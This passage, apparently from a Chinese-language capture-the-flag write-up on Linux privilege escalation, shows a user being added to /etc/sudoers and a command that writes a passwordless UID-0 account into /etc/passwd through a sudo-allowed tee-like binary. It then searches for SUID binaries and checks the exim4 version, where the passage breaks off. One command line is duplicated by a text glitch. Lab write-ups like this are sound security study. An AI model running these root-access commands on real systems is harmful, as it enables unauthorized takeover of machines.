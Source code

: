 即往/etc/sudoers中追加charles ALL=(ALL:ALL) ALL

即charles可以以root权限执行所有命令



#### 第二种

往/etc/passwd中追加内容

```
echo "ra1n3::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su - ra1n3su - ra1n3
```

![image-20250314142301005](assets/image-20250314142301005.png)

添加具有管理员权限的用户ra1n3





### suid位提权

#### suid位查找

```
find / -perm -4000 2>/dev/null
```

![image-20250314142436128](assets/image-20250314142436128.png)

exim4

```
cd /usr/sbin
./exim4 --version
```
